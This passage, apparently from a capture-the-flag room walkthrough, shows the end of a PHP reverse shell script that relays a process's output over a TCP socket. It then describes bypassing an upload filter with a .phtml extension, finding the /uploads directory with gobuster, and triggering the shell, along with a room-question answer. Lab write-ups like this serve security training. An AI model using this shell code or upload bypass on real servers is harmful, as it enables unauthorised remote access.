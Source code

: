 ```php
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
Copy this code into a file with .php extension. Remember to change the ip_address with your system ip. For that go to terminal and type: `ifconfig`.

Now let's try to upload the code into the page. Shh! we were responded with extension not allowed message.

**Q8. 
What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.**
- **Ans** `.php`

So, what to do now?
Hmm, let's try finding which extensions are allowed to upload. We can try some more extensions given on the room.
After trying couple of them, success message was shown on the page but we didn't get reverse shell. It's because automatic running of the file is disabled, so we have to manually trigger it but we don't know where the file was saved. So, let's try enumerating some more directory using gobuster but this time base address will be `machine_ip:3333/internal`. From gobuster we found out /uploads and then after executing our .phtml file we will get reverse shell.
